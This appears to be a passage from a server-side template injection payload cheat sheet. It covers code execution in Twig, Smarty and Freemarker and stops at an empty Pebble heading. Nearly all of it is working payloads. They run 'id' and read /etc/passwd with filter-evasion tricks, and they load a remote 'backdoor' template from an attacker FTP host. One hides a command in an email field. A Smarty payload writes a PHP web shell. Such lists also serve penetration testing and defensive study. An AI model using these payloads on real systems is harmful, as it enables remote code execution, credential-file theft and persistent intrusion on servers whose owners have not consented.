 ### Code execution

```python
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
```

Example with an email passing FILTER_VALIDATE_EMAIL PHP.

```powershell
POST /subscribe?0=cat+/etc/passwd HTTP/1.1
email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
```

## Smarty

```python
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

## Freemarker

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

### Basic injection

The template can be `${3*3}` or the legacy `#{3*3}`

### Code execution

```js
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
```

## Pebble

### Basic injection

```java
{{ someString.toUPPERCASE() }}
```

### Code execution
